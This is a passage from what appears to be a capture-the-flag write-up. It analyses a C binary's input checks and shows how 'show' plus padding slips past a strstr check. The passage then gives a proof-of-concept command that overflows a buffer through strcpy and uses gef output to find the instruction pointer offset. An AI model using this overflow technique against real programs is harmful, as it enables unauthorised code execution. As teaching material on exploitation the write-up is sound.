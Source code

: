 The first check function we look at is "isValidIpAddress":

```
int isValidIpAddress(char *ipAddress)
{
      struct sockaddr_in sa;
      int result = inet_pton(AF_INET, ipAddress, &(sa.sin_addr));
  return result != 0;
}
```

The input that is read from stdin is directly put into the "inet\_pton" function, which converts ip addresses between formats, leading to failure if it can’t do so. I don’t think this is something where we could enter anything else but a valid ip, so lets look at the other function:

```cpp
int isValidAction(char *action)
{
  int a=0;
  char value[10];
  strncpy(value,action,9);
  if(strstr(value,"allow")) a=1;
  if(strstr(value,"restrict")) a=2;
  if(strstr(value,"show")) a=3;
  return a;
}
```

Here we can see that only the first 9 characters of action are copied into a local variable. Then "strstr" is being used to compare the action to some predefined strings. When using "strstr" only up to n (n = length of predfined string) characters are compared. This means that we can enter something like `showAAAA` and the check is still passed!

A simple poc that shows that we can overwrite the instruction pointer looks like this:

```
run -i <<<$(python -c 'print "show"+"A"*100+"\n127.0.0.1\n"')
```

```
...
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"     ← $rsp
─────────────────────────────── code:x86:64 ────
     0x400b57 <interactive+264> call   0x4006f0 <strcpy@plt>
     0x400b5c <interactive+269> nop
     0x400b5d <interactive+270> leave
 →   0x400b5e <interactive+271> ret
[!] Cannot disassemble from $PC
```

Next we need the offset of the instruction pointer overwrite so we can replace it with a chosen value:

```
gef➤  pattern create  100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

run -i <<<$(python -c 'print "show"+"aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa"+"\n127.0.0.1\n"')

x/8xg $rsp    
0x6161616161656161    
[+] Found at offset 30 (little-endian search) likely
```
